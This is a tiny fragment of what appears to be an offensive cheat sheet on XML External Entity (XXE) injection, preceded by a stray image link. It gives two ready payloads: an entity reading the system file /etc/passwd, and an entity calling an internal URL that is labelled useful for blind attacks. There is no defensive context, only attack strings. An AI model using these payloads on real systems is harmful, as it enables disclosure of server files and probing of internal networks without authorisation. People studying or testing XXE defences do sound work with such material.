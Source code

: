 Access local files
`<!ENTITY xxe SYSTEM "file:///etc/passwd">
`
Access external URL (good for blind)
`<!ENTITY xxe SYSTEM "http://127.0.0.1">`